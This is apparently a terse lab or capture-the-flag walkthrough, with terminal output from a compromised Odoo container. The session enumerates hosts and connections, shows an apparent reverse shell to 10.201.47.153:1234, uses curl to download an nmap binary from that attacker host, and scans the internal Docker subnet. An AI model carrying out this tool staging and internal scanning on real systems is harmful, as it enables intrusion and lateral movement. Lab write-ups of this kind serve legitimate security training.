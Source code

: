 <br>

```bash
:~/Obscure#  chmod 600 id_rsa
```

<br>



odoo@b8a9bbf1f380:/tmp$ getent hosts
getent hosts
127.0.0.1       localhost
127.0.0.1       localhost ip6-localhost ip6-loopback
172.17.0.2      db b5cc3d65e489 unkkuri-db
172.17.0.3      b8a9bbf1f380


odoo@b8a9bbf1f380:/tmp$ ss
ss
Netid  State      Recv-Q Send-Q   Local Address:Port       Peer Address:Port   
tcp    ESTAB      0      0           172.17.0.3:60994        172.17.0.2:postgresql 
tcp    ESTAB      0      0           172.17.0.3:60990        172.17.0.2:postgresql 
tcp    ESTAB      0      0           172.17.0.3:60992        172.17.0.2:postgresql 
tcp    ESTAB      0      0           172.17.0.3:42798     10.201.47.153:1234    
tcp    ESTAB      0      0           172.17.0.3:8069      10.201.47.153:35918   
tcp    ESTAB      0      0           172.17.0.3:60986        172.17.0.2:postgresql 





odoo@b8a9bbf1f380:/tmp$ curl http://10.201.47.153:8000/nmap-x64.tar.gz -o nmap-x64.tar.gz
<l http://10.201.47.153:8000/nmap-x64.tar.gz -o nmap-x64.tar.gz              
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 10.1M  100 10.1M    0     0   105M      0 --:--:-- --:--:-- --:--:--  106M
odoo@b8a9bbf1f380:/tmp$ 



odoo@b8a9bbf1f380:/tmp$ tar -xzf nmap-x64.tar.gz
tar -xzf nmap-x64.tar.gz
odoo@b8a9bbf1f380:/tmp$ 


<p> 172.17.0.1 has port 4444 open</p>

odoo@b8a9bbf1f380:/tmp$ ./nmap -Pn 172.17.0/24



<img width="840" height="341" alt="image" src="https://github.com/user-attachments/assets/86baec93-e316-4e56-9dd6-c7372083b0cf" />


ifconfig

<img width="463" height="454" alt="image" src="https://github.com/user-attachments/assets/b6921044-a3db-40ce-b1c6-4e9c8ebd271d" />




